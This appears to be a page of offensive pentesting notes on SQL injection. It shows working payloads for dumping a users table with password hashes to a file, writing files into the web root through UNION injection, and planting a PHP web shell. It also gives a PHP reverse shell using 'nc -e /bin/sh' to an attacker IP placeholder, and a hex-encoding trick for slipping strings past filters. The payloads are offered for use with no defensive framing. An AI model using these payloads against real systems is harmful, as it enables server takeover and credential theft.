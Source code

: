 ### SELECT INTO OUTFILE 

Take an example...
```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

...will be:
```console
zero@pio$ cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45
```

### Writing Files through SQL Injection 

```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
'something' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- 
```

### Web Shells and reverse shells

Taking for example a PHP server and the following web shell:
```php
<?php system($_REQUEST[cmd]); ?>
```

We can insert it:
```sql
'something' union select 1,'<?php system($_REQUEST[cmd]); ?>',3,4 into outfile '/var/www/html/shell.php'-- 
```

And access it from the web.
```
http://<ip>/shell.php?cmd=id
```

Another option is to create a reverse shell with the following payload:
```php
<?passthru("nc -e /bin/sh <your ip> <port>");?>
```

Just accessing the file, without parameters and with a netcat open and we will get the reverse shell.

## Major Tip

If we can not pass a string like **"database-name"** we can encode it:
```console
$ echo "database-name" | xxd -ps
```
> We may remove the **0a**, and add a **0x** at the beggining.
{: .prompt-tip}

---